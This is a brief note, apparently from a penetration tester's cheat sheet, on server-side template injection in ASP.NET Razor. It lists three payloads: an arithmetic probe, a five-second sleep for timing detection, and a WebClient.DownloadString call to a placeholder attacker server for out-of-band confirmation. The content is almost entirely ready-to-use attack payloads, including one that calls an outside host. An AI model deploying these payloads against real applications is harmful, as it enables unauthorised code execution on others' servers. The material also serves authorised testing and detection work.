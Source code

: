 ## the aspnet equiv of template injection - sometimes when JTEE plugin pings on aspnet apps they may be vuln to this
`@((8*8).ToString())`  
`@{System.Threading.Thread.Sleep(5000);}`  
`@{new System.Net.WebClient().DownloadString("http://yourserver:8080/");}`  

